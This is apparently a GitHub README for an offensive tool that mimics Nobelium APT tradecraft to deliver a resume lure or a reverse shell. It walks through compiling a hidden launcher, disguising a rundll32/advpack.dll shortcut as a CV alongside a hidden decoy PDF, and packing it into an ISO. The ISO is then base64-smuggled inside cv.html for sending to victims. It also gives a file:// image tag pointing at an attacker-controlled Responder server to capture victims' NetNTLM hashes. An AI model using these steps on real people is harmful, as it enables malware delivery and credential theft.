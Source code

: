 # Mimicking Nobelium APT to send your resume or a reverse shell if you are evil

<video src="icono/cv.mp4" width="500" />

First of you can clone this repo : 

```
git clone https://github.com/fredtep/SendCV.git
```

## In Linux : 
Modify calc.cs to suite your needs then compile with : 

```bash
mcs -out:calcLauncher.exe calc.cs
```

## In windows : 

1/ Create a Directory

```mkdir CV\Hidden```

2/ Hide the Hidden Folder

```attrib +h CV\Hidden```

3/ Copy the Hidden/CV-Hack3r-2024.pdf inside the Hidden Folder

4/ Copy calcLauncher.exe inside the CV Folder

5/ Hide calcLauncher.exe (right click > properties > Hidden)

6/ Now create a shorcut :

- right click > New > Shorcut

- **For the path choose :** C:\Windows\System32\rundll32.exe c:\windows\system32\advpack.dll,RegisterOCX calcLauncher.exe

- **For the name choose :** CV

Bonus/ You can change the icon as well if you want : right click > properties > Change Icon

You can select some icon from here : %systemroot%\system32\imageres.dll

## Building the ISO file

First of all we need to get oscdimg.exe which is installed along with the Windows Assessment and Deployment Kit (Windows ADK) 
To do so download ADK at this address : [https://learn.microsoft.com/en-us/windows-hardware/get-started/adk-install](https://learn.microsoft.com/en-us/windows-hardware/get-started/adk-install)

Now you can run the following command

```"C:\Program Files (x86)\Windows Kits\10\Assessment and Deployment Kit\Deployment Tools\x86\Oscdimg\Oscdimg" -m -u2 -h -lCV "C:\users\fred\Desktop\CV" "C:\Users\fred\Desktop\CV.iso"```

Now just take your file back to linux and encode the ISO to base64.

```cat CV.iso | base64 -w 0```

Finally copy the output and replace the content of the b64iso variable inside cv.html (toward the end of the script)

Upload cv.html to a server or send it as is and enjoy !

## WICKED BONUS

You can capture the NetNTLM hash of your victim by running responder in a server you own and change line 119 in cv.html : 
```<img src="file://<MY EVIL IP RUNNING RESPONDER>/responder.png" alt="">```

---------------------------------------------------------------

Filesaver.js can be found [here](https://github.com/eligrey/FileSaver.js/tree/master)